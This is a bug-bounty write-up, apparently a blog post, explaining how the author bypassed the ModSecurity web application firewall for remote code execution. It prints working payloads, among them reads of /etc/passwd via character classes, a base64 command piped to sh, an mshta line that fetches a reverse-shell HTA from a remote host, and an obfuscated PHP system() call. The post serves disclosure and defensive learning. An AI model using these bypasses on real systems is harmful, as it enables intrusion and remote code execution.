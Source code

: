 ```yaml
---
layout: post
title:  "Bypassing ModSecurity for RCEs"
date:   2022-08-29 18:32:00 +0530
author: Somdev Sangwan
tags:   [event, bypass, security]
image: /imgs/thumbs/modsecurity-event.jpg
permalink: /blog/modsecurity-rce-bypass
description: "A tale of multiple RCE bypasses for ModSecurity WAF."  
---
```


> tl;dr: I won $17k by bypassing [ModSecurity](https://github.com/SpiderLabs/ModSecurity) for multiple RCEs in in a hacking event hosted by [intigriti](https://www.intigriti.com/).

## WAFs 101

Firewalls stop attacks. They can recognize them with their database of various rules that describe what an attack looks like. These rules are created by hand or automated analysis of thousands of actual attacks.
  
A web application firewall is a firewall, for websites.

### Blacklists are hard
`ping` is a tool commonly used to troubleshoot networks. As a WAF designer, you might want to block attempts to run it. But what if user A sends a text message to user B through your WAF,
> your router looks fine, try to ping google.com

That's it. The WAF blocked the message, the user filed a complaint to the website owner. The owner debugged the issue and found out that the WAF was at fault.  
Now prepare for an angry twitter thread to be shoved down your throat, your wife Karen leaving you and taking the kids with her. You are done.

Jokes apart and credit where it's due, writing anti-attack rules for unknown contexts is tough. You need to prioritize false negatives over false positives over multiple levels of security while still protecting against the most common attacks.

With that being said, let me tell you a tale of why I am so cool and such a genius for trying random things until some of them worked.

## Filenames in Linux
> Note: When I say "linux", it means *nix (linux and unix). This applies to the entire article.

It is common knowledge that in linux, wildcards such as `*` and `?` are allowed in filenames. But did you know that character classes are also allowed? If your file is named `test.txt`, you can access it by typing `te[sn]t.txt`. The `[sn]` here is a *character class* which says that the character in this place can be an `s` or an `n` i.e. it will match both `test.txt` and `tent.txt`.

If you add an exclamation symbol (`!`) at the beginning of the character class (i.e. `[!sn]`) it will match everything other than the characters in it (i.e. `s` and `n`).

These character classes notations were not getting detected by ModSecurity, giving us two neat bypasses:

```
cat /etc/pass[w]d
cat /etc/pass[!x]d
```

## Everything is a file in Unix
> "Everything is a file" describes one of the defining features of Unix, and its derivatives—that a wide range of input/output resources such as documents, directories, hard-drives, modems, keyboards, printers and even some inter-process and network communications are simple streams of bytes exposed through the filesystem name space.
> - [WikiPedia](en.wikipedia.org/wiki/Everything_is_a_file)

Every command in linux is ultimately an executable binary file stored in `/usr/bin`. Thus instead of executing `ping`, you can write `/usr/bin/ping` and it will work.

Building on my previous exploit that could only interact with files, I turned that file-access technique into a juicy RCE with  

```
/usr/bin/who[a]mi -a
```

## Utilising the linux utilities
There are some amazing [core utilities](https://en.wikipedia.org/wiki/List_of_GNU_Core_Utilities_commands) that come pre-installed in linux.

I cross-checked them with ModSecurity's rules and found some commands that were missing from the blacklist. With a bit of reading here and there, the `base64` utility caught my eye. As the name suggests, it does [base64](https://en.wikipedia.org/wiki/Base64) encoding/decoding.

The idea was to encode the command as base64, decode it and pass the result to something that can "eval" it as a command.

There were some problems with this plan,
1. base64 utility needed [stdin](https://linuxhint.com/bash_stdin_stderr_stdout/) and the only plausible way to do that was with `echo` (e.g. `echo dW5hbWUgLWE= | base64 -d`). But `echo` was blacklisted, as it should be.
2. `sh` (shell) command can execute stdin as a command. Unfortunately, it was blacklisted too and there is no alternative to `sh`.

I solved the first problem by using `printf` instead of `echo`. It's an echo-like utility that supports string formatting.

The second one seemed like a dead end, the most common outcome in research. I did what researchers do, I decided to pursue other ideas as a break.
It helped, after some messing around I found that if a command isn't followed by any character, it doesn't get detected.

Combining these two bypasses, the final bypass becomes this:
```
printf dW5hbWUgLWE= | base64 -d | sh
```

Here, we base64 encoded a command, used the `base64` to decode it and then used `sh` to execute the decoded command.  
  
The neat thing about this bypass is that you smuggle literally anything and since it's base64 encoded, the WAF won't detect a thing.

## Windows is no different
Hacking is about trying things. Sometimes stupidly obvious, sometimes things you learned from a 4-page forum thread from 2006 and sometimes whatever keys you can press with your blurry sleepy eyes at 4 AM.

I tried the `?` filepath wildcard on Windows and it worked. ModSecurity didn't detect it since the wildcard detection rules were for `/paths/like/this` not `C:\paths\like\this`. Easy.

```
C:\Windows\System32\WindowsPowerShell\v1.0\power?hell.exe -File test.ps1
```

### Programming languages have versions now?
ModSecurity blocked `python xyz`, `python2 xyz` and `python3 xyz`. "Unfortunately", you can also invoke specific versions of the interpreter as `python3.10 xyz` for example. This variation wasn't blacklisted and hence I found a way to install arbitrary malware using python.

```
python3.10 -m pip install malware
```

## Entering through the Windows  
Windows is a gold mine for not-so-well-known features. Some found through a blog of a 16yo reverse engineer, some through Windows 95 guides and some by simply googling "windows malware delivery github".

I found a utility named [mshta](https://redcanary.com/threat-detection-report/techniques/mshta/) which is a windows component that deals with HTA ([HTML Application](https://en.wikipedia.org/wiki/HTML_Application)) files. These files can contain executable VBScript code and there's even a metasploit module to generate malicious HTA files.  
  
ModSecurity didn't detect it which gave me a payload that can download+execute arbitrary VBScript code.

```
mshta http://example.com/reverseShell.hta
```

## PHP Injection

You should check out [OWASP Core Rule Set](https://github.com/coreruleset/coreruleset), the collection of WAF rules used by ModSecurity. The comprehensibly documented rules through comments make it an excellent resource.

While trying to get my PHP function calls through the WAF, I went through the documentation of the [rule](https://github.com/coreruleset/coreruleset/blob/977ccdfb914e6d62b00ae26e2006b75b22e3df6c/rules/REQUEST-933-APPLICATION-ATTACK-PHP.conf#L418) that detects them. It was there where I learned that an attacker can obfuscate a function call as:

```
$x='sy'.'tem';
$x(ls);
```

Something clicked immediately, what if I could do this segmentation without a variable? One thing led to another and after a bit of testing, I came up with:

```
return"system"(ls).s;
```

Don't ask me to explain how this one works, I don't know much about PHP. I just tried things that made sense after looking at known bypasses and this one worked in a PHP webpage I created for testing.

### Credits
ModSecurity is an open-source WAF and if you ask me, it's as good as WAFs get. It is almost impossible to bypass it for XSS, the rules are that good.

Shoutouts to them for maintaining such an important and free project responsibly and thanks to intigriti for hosting this hacking event and inviting me.

Until next time, fellas.
